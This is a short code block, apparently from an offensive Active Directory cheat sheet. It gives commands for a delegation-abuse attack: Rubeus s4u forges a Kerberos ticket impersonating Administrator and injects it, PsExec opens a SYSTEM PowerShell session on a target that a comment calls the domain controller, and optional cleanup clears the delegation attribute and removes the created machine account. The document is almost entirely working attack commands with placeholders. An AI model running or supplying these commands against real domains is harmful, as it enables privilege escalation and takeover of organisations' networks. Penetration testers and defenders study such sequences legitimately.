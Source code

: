 ```
.\rubeus.exe s4u /user:<created_machine$> /rc4:<rc4_hash> /impersonateuser:<target_user(Administrator)> /msdsspn:cifs/<target_machine.DOMAIN.FQDN> /domain:DOMAIN.FQDN /ptt

# Get a session on the DC
.\psexec64.exe -accepteula \\<target_machine.DOMAIN.FQDN>\ -s powershell.exe

# Optional cleanup
# If msds-allowedtoactonbehalfofotheridentity field was empty before
Get-DomainComputer <target_machine> | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'
Remove-ADComputer -Identity "<created_machine>"
```
